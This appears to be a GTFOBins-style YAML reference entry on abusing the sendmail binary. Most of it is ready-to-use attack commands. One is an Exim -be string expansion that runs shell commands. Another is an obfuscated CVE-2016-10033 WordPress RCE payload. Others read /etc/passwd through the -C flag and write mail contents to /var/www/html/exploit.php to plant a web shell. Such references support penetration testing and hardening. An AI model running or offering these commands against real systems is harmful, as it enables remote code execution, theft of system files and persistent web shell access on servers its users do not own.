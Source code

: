 ```yaml
---
description: sendmail differs between systems, depending on whether it is postfix, exim, or otherwise, which provides the binary.
functions:
  command:
    - description: The -be flag can be used to execute system commands, when sendmail is provided by Exim4.
      code: |
        sendmail -be '${run{/bin/sh -c "uname -a"}{yes}{no}}'
    - description: See [\"PoC HTTP request / minimal PoC exploit\"](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html) for more information about this exploit. This example runs `uname -a`.
      code: |
        sendmail -t -i -f 'email@address.com(tmp1' -be '${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}uname${substr{10}{1}{$tod_log}}-a$}}' 'tmp2)'
  file-upload:
    - description: Arbitrary files can be delivered.
      code: |
        sendmail -t -i -f mail@address.com -C/etc/passwd -X/dev/null < mail.txt
  file-write:
    - description: Arbitrary local files can be written to a new location. It is worthy of playing around with the ability to upload files/the contents of the mail being sent.
      code: |
        sendmail -t -i -f mail@address.com -X/var/www/html/exploit.php < mail.txt
---
```

